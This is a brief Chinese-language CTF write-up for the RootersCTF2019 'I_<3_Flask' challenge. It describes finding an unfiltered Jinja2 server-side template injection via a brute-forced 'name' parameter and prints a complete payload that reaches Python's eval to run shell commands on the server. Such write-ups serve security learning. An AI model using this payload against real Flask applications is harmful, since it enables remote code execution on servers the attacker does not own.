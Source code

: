 # \[RootersCTF2019]I\_<3\_Flask

## \[RootersCTF2019]I\_<3\_Flask

## wp

经典SSTI，没有过滤

使用[Arjun](https://github.com/s0md3v/Arjun)爆破参数，得到name

传参`?name={{7*7}}`测试出来SSTI

然后是很常规的SSTI注入

```
?name={{[].__class__.__mro__[1].__subclasses__()[133].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag.txt').read()")}}
```
